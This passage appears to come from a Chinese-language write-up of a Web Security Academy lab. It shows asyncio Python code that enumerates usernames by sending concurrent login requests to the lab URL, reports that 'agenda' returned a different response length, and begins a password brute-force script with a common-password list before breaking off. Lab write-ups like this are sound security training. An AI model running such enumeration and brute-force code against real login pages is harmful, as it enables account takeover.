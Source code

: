 
    async def run_tests(wordlist: List[str], url: str, rounds: int = 5) -> None:
        """執行非同步測試"""
        # 設定連接池和超時
        timeout = aiohttp.ClientTimeout(total=10)
        connector = aiohttp.TCPConnector(limit=50, limit_per_host=10)
        
        async with aiohttp.ClientSession(timeout=timeout, connector=connector) as session:
            tasks = []
            
            # 建立所有任務
            for round_num in range(rounds):
                print(f"\n--- Round {round_num + 1} ---")
                for username in wordlist:
                    task = test_login(session, username, url)
                    tasks.append(task)
            
            # 並發執行所有任務，但限制同時執行的數量
            semaphore = asyncio.Semaphore(20)  # 限制同時最多20個請求
            
            async def limited_task(task):
                async with semaphore:
                    await task
            
            # 執行所有任務
            await asyncio.gather(*[limited_task(task) for task in tasks])


    async def main():
        """主函數"""
        url = 'https://0a45005d0321c863814516e700cb0001.web-security-academy.net/login'
        await run_tests(wordlist, url, rounds=5)


    if __name__ == "__main__":
        # 執行非同步程式
        asyncio.run(main())
    ```
2. 發現使用者名稱 `agenda` 的回應長度不同，猜測存在使用者名稱 `agenda`
3. 撰寫程式嘗試各種密碼，並請 AI 改寫成非同步增加速度：
    ```python
    import asyncio
    import aiohttp
    from typing import List

    wordlist = """123456
    password
    12345678
    